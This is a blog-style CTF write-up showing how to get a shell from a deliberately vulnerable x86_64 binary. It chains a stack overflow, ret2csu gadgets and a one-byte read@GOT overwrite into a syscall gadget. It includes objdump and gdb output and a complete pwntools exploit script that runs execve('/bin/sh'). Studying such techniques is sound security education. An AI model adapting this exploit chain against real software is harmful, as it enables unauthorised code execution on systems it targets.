 ```yaml
---
title: "From read@GLIBC to RCE in X86_64"
tags: ["linux", "exploit", "rce", "buffer-overflow"]
date: 2019-11-29T17:03:16+01:00
comments: true
draft: false
---
```


While playing some pwn in **HackZone** CTF, i figured out a new technique for Arbitrary Code Execution only by using the `read` function from libc.

## TL;DR
It's almost impossible for a security research to exploit a binary only with Arbitrary Write, because in real world you need to leak some data (Specially when ASLR is enabled) and then jump to the right place. However i got an idea of how to get RCE using only read@GLIBC (`Arbitrary Write`) on a X86_64 platform.

## PWN.c
```c
// gcc -fno-stack-protector -no-pie pwn.c -o pwn
#include <stdio.h>
#include <stdlib.h>

int main(){
    char buf[100];
    read(0, &buf, 500);
}
```
Following this code, we will be compiling it and try to exploit it using our method!

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see the GOT table is writable, so this will help us to overwrite the read@GOT but the problem is what kind of data we'll using it to overwrite the read@GOT since we don't have the ability to leak address and ASLR is enable!

## Read@GOT
```shell
root@kali:~# objdump -R ./pwn

./pwn:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000403ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000403ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000404018 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5

```
```shell
gdb-peda$ x/g 0x404018
0x404018 <read@got.plt>:        0x00007ffff7ee2850
```
In our example the address `0x404018` in the GOT table points to the address of `read@GLIBC_2.2.5` in libc.

## Read@GLIBC

```nasm
gdb-peda$ disassemble read 
Dump of assembler code for function __GI___libc_read:
   0x00007ffff7ee2850 <+0>:     lea    rax,[rip+0xd3b79]
   0x00007ffff7ee2857 <+7>:     mov    eax,DWORD PTR [rax]
   0x00007ffff7ee2859 <+9>:     test   eax,eax
   0x00007ffff7ee285b <+11>:    jne    0x7ffff7ee2870 <__GI___libc_read+32>
   0x00007ffff7ee285d <+13>:    xor    eax,eax
   0x00007ffff7ee285f <+15>:    syscall 
   0x00007ffff7ee2861 <+17>:    cmp    rax,0xfffffffffffff000
   0x00007ffff7ee2867 <+23>:    ja     0x7ffff7ee28c0 <__GI___libc_read+112>
   0x00007ffff7ee2869 <+25>:    ret    
   0x00007ffff7ee286a <+26>:    nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7ee2870 <+32>:    sub    rsp,0x28
   0x00007ffff7ee2874 <+36>:    mov    QWORD PTR [rsp+0x18],rdx
   0x00007ffff7ee2879 <+41>:    mov    QWORD PTR [rsp+0x10],rsi
   0x00007ffff7ee287e <+46>:    mov    DWORD PTR [rsp+0x8],edi
   0x00007ffff7ee2882 <+50>:    call   0x7ffff7efe570
   ...

```
Following the assembler code for function **read@GLIBC**, we can see that the first `syscall` instruction is only 15bit from the first instruction followed by `ret` which is only 45bit from the first instruction.

> One byte overwrite in the read@GOT can create a gadget of `syscall; ret`

## Summarize

{{< figure src="/img/from-read-glibc-to-rce-x86_64/read_got.png" >}}

### PWN

To summarize all the steps to exploit the binary, what we need to do is :

1. We need to use `ret2csu` technique in order to control the RDI, RSI and RDX.
2. Using the read function to write `/bin/sh` in the `.bss` section.
3. Overwrite the `read@GOT` with one byte `0x5f` in order for the read function to point in the `syscall` instruction.
4. Because we overwrite with `one` byte, that's mean the `RAX` is equal to `1`.
5. The RAX register is equal to 1 and the read function is pointing in syscall instruction. That's mean we have a `write` function.
6. Using the write function, we will read `0x3b` size of arbitrary data from (.text or .bss) in order for the RAX to be equal to 0x3b (`sys_execve`).
7. Now we have `RAX` equal to `0x3b` and we have `/bin/sh` in the memory, all what we need to do is to fire a `syscall`.
8. We got a shell.

### Exploit
```python
from pwn import *

p = process('./pwn')

read_got    = p64(0x404018) # read@got
read_plt    = p64(0x401030) # read@plt
str_bin_sh  = p64(0x404100) # 0x00404000 (bss) + 0x100
text        = p64(0x401000) # .text section
csu_init1   = p64(0x4011a2) # pop rbx
csu_init2   = p64(0x401188) # mov rsi, r13
csu_fini    = p64(0x4011b0) # ret
sys_execve  = p64(0x3b)
null        = p64(0x0)
one         = p64(0x1)
zero        = p64(0x0)
stdin       = p64(0x0)
stdout      = p64(0x1)
junk        = 'JUNKJUNK'
bin_sh      = '/bin/sh\x00'
len_bin_sh  = p64(len(bin_sh))

def ret2csu(func_GOT, rdi, rsi, rdx):
    ret_csu  = zero      # pop rbx
    ret_csu += one       # pop rbp
    ret_csu += rdi       # pop r12
    ret_csu += rsi       # pop r13
    ret_csu += rdx  # pop r14
    ret_csu += func_GOT  # pop r15
    ret_csu += csu_init2 # ret
    ret_csu += junk      # add rsp,0x8
    return ret_csu

crash = 'A' * 120

# Write '/bin/sh' in str_bin_sh
rop  = csu_init1
rop += ret2csu(read_got, stdin, str_bin_sh, len_bin_sh)

# Overwrite read@got with one_byte
rop += ret2csu(read_got, stdin, read_got, one)

# Read arbitrary data in order to gt 0x3b in RAX
rop += ret2csu(read_got, stdout, text, sys_execve)

# sys_execve('/bin/sh')
rop += ret2csu(read_got, str_bin_sh, null, null)

payload = crash + rop

exploit = payload.ljust(500, 'A')
p.send(exploit)
p.send(bin_sh)
p.send('\x5f')
garbage = p.recv()
p.interactive()

```
### Download
* [read_glibc.zip](/files/from-read-glibc-to-rce-x86_64/read_glibc.zip)
</br>
